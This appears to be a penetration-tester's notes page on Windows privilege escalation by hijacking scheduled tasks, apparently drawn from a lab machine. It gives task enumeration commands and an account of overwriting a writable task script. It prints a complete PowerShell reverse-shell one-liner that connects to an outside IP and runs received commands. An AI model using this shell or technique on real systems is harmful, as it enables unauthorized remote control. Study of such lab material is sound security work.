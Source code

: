 # ⏲ Scheduled Apps (CronJobs)

<details>

<summary>Examples of Scheduled Apps Exploitation</summary>

[https://app.gitbook.com/s/C01qT6YExS9JZIncykrV/privilege-escalation](https://app.gitbook.com/s/C01qT6YExS9JZIncykrV/privilege-escalation) (Slort PG)

</details>



Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM. 98 Commands Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account. List all scheduled tasks your user can see:

```
schtasks /query /fo LIST /v
PS> Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft Task,Name,Task,Path,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

Another example,

![](<../../../.gitbook/assets/image (3).png>)

There was a log.txt file that said that there was this scheduled task running every 5 minutes. Morever I had write access to these.

I renamed the backup_powershell.ps1 to backup_\_powershell.bak

Then I replaced that script with this powershell reverse shell.

Upon restart, I didnt need to wait 5 minutes since I had the permission to shutdown the computer using shutdown -r or Computer-Restart in Powershell.

```
# Nikhil SamratAshok Mittal: http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

$client = New-Object System.Net.Sockets.TCPClient("192.168.119.125",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Afterwards, I was able to get a reverse shell.&#x20;
